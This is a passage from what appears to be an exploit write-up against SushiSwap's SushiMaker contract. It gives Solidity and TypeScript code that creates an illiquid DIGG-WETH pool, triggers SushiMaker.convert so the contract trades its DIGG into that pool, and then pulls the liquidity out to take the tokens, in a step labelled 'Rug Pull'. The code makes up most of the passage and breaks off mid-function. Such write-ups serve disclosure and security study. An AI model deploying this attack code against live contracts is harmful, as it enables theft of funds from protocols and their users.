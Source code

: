 ```solidity
            path,
            address(this),
            type(uint256).max
        );
    uint256 nonWethBridgeAmount = swapAmounts[2];

    // create pair
    pair = IUniswapV2Pair(
        sushiFactory.createPair(address(nonWethBridgeToken), address(WETH))
    );

    // add liquidity
    nonWethBridgeToken.approve(address(sushiRouter), nonWethBridgeAmount);
    sushiRouter.addLiquidity(
        address(WETH),
        address(nonWethBridgeToken),
        msg.value / 2, // rest of WETH
        swapAmounts[2], // all DIGG tokens we received
        0,
        0,
        address(this),
        type(uint256).max
    );
}
```

Calling `createAndProvideLiquidity(WBTC, DIGG)` with a tiny amount of ETH sets up the attack and the SushiMaker can be triggered to trade in our illiquid pool.

#### SushiMaker trades in illiquid pool

The `SushiMaker.convert(WBTC, DIGG)` call must be performed from an EOA:

```typescript
await sushiMaker.connect(attackerEOA).convert(WBTC, DIGG)
const diggWethPair = await ethers.getContractAt(
  `IUniswapV2Pair`,
  await sushiFactory.getPair(weth.address, DIGG)
)
// can check if SushiMaker's DIGG is in reserve
const [reserveDigg, reserveWeth] = await diggWethPair.getReserves()
```

#### Rug Pull

Lastly, we let the contract redeem the LP tokens for the underlying tokens again, which should now contain all DIGG tokens that previously accumulated in the SushiMaker contract.

```solidity
function rugPull(
    IUniswapV2Pair wethPair, // DIGG <> WETH
    IERC20 wethBridgeToken // WBTC
) external payable {
    // redeem LP tokens for underlying
    IERC20 otherToken = IERC20(wethPair.token0()); // DIGG
    if (otherToken == WETH) {
        otherToken = IERC20(wethPair.token1());
    }
    uint256 lpToWithdraw = wethPair.balanceOf(address(this));
    wethPair.approve(address(sushiRouter), lpToWithdraw);
    sushiRouter.removeLiquidity(
        address(WETH),
        address(otherToken),
        lpToWithdraw,
        0,
        0,
```